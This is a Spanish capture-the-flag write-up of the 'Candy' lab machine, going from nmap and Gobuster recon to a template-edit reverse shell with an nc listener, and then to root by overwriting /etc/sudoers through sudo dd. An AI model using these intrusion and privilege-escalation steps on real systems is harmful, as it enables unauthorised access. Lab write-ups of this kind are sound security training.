 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Candy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (793).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (794).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web llamada Cassiopeia.

<figure><img src="../../.gitbook/assets/image (795).png" alt=""><figcaption></figcaption></figure>

Como nos pide unas credenciales vamos a revisar el archivo `robots.txt` por si contiene algo relevante.

<figure><img src="../../.gitbook/assets/image (796).png" alt=""><figcaption></figcaption></figure>

Vemos unas credenciales pero la contraseña parece ser que está codificada en **base64**.

```bash
echo "c2FubHVpczEyMzQ1" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (797).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (798).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (806).png" alt=""><figcaption></figcaption></figure>

Nos encontramos un directorio llamado `/administrator` y entramos en él y nos pide unas credenciales que hemos encontrado anteriormente.

<figure><img src="../../.gitbook/assets/image (799).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (800).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos a **System** en concreto **Sites Templates** y editamos el archivo `error.php` para hacer una [**Reverse Shell**](https://www.revshells.com/). Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (801).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

```bash
find / -user luisillo 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (802).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido de ese archivo.

```bash
cat /var/backups/hidden/otro_caramelo.txt
```

<figure><img src="../../.gitbook/assets/image (803).png" alt=""><figcaption></figcaption></figure>

Parecen unas credenciales por lo que intentamos loguearnos.

<figure><img src="../../.gitbook/assets/image (804).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos SUDO con dd por lo que revisamos esta [página](https://gtfobins.github.io/gtfobins/dd/).

```bash
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

<figure><img src="../../.gitbook/assets/image (805).png" alt=""><figcaption></figcaption></figure>
